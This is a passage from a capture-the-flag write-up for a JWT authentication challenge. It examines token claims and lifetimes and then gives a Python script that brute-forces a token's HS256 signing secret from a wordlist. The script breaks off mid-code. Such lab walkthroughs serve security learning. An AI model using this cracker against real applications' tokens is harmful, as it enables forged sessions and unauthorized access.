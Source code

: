 ![](attachments/Web%20Challenge%20-%20Auth%20-%20jwt%20flag.png)

We observe that in the data we have the `username` and two other fields :

- `exp` (expiration time): Time after which the JWT expires
- `iat` (issued at time): Time at which the JWT was issued; can be used to determine age of the JWT

**The the expiration period of the tokens is:** (calculated with this website : [https://iuliacazan.ro/timestamps-diff/#demo](https://iuliacazan.ro/timestamps-diff/#demo))

- JWT token for [http://localhost/8080/2fa](http://localhost/8080/2fa) : 3 min
- JWT token for [http://localhost/8080/flag](http://localhost/8080/flag) : 24h

### Brute force the signature

We will try to brute force the secret used for signing with this script :

```python
# Brute force secret of JWT

import jwt, argparse;

# Get arguments
parser = argparse.ArgumentParser(description='Brute force the jwt secret')
parser.add_argument('token',  type=str, help='JWT token')
parser.add_argument('-w', type=str, help='path to wordlist file', default='./wordlist.txt')

args = parser.parse_args()

token, wordlist = args.token, args.w

# Brute force the secret
secret_decoded = False

with open(wordlist, 'r') as seckeys:
	for secret in seckeys:
		try:
			payload = jwt.decode(token, secret.rstrip(), algorithms=['HS256'], options={'verify_exp':False})
			print("Success. Token decoded with the following key: " + secret.rstrip())
			secret_decoded = True
			break
		except :
```